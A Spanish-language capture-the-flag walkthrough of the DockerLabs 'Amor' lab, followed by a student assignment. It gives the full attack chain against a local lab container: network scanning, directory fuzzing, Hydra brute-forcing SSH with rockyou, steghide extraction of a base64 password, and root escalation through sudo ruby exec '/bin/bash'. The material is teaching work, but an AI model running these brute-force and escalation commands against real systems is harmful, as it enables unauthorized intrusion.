

## DOCKERLABS

DockerLabs es una plataforma que ofrece una serie de desafíos prácticos relacionados con Docker, organizados por niveles de dificultad: Muy Fácil, Fácil, Medio y Difícil

# Reto Amor 

## Fácil

Dockerlabs.es

## Despliegue del laboratorio.

Iniciaremos nuestro reto creando una carpeta para el ejercicio, descargando el laboratorio, descomprimiendo, otorgando permisos al script de despliegue y ejecutando el script.

└─# ./auto_deploy.sh amor.tar 

Imagén descarga.



## Escaneo

Lo primero que realizaremos será revisar nuestra interfaz de red con:

```bash
ip add 
```
para saber a qué segmento apuntaremos nuestros escaneos.

Ya con el segmento en vista y la interfaz, realizaremos una consulta a la red con el siguiente comando:

```bash
sudo netdiscover -i docker0 -r 172.17.0.0/24
```

Acto seguido, realizaremos una búsqueda con nmap (Network Mapper):

```bash
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
```

La búsqueda nos devuelve que hay dos puertos abiertos, el **22** y el **80**.

Abrimos el navegador para revisar el servicio del puerto **80**.

A la vista no se encuentra nada, así que realizamos un fuzzing para ver si encontrábamos algo. Aun que veremos que es infructuoso el procdimieno. 

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

gobuster.png

A esta altura el servicio web no nos dio el amor que buscábamos, pero sí nos quedamos con la pista de carlota y juan, así que intentaremos con Hydra por SSH con esos usuarios. (Inspección del sitio web)


## Conexión Hydra

Ejecutamos el siguiente comando de hydra, el cual nos da una respuesta positiva al fin:

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

Realizamos la conexión SSH con los datos obtenidos:

Navegamos a la siguiente ruta:

```bash
cd /carlota/Desktop/fotos/vacaciones
```

En donde encontrarás un archivo llamado `imagen.jpg`.

Para descargarlo lo realizaremos mediante scp como:

```bash
 scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
```
IMaGEN SCP


La imagen descargada es la siguiente:

FOTO

## Con file identificamos el tipo de fichero.

file.jpg


## Esteganografía

Ya es sospechoso que solo exista una imagen entre las rutas, por lo cual decidimos realizar una consulta de esteganografía con:

```bash
steghide --extract -sf imagen.jpg
```

Dentro del archivo secret.txt encontraremos el siguiente código:

Realizamos una búsqueda para saber qué tipo de codificación es y nos da por resultado que es base64, así que realizamos una decodificación:

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
```

Usaremos esta información como contraseña para intentar migrar a otro usuario o convertirnos en root:

```bash
su oscar
```

Con `sudo -l` vemos que tenemos acceso a la consola de **ruby** y la ejecutamos:

```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

Finalmente hacemos un:

```bash
whoami
```

# Taller Individual.

1. ReAlizar una investigación individual de cada una de las herramientas empleadas. Sintetice el resultado  mediante un cuadro que explique su definición, funcionalidad y casos de uso.

2. Explicar en detalle cada uno de los comandos empleados realizando un desglose del mismo y citando al menos tres alternativas (si aplica) de variantes del comando.

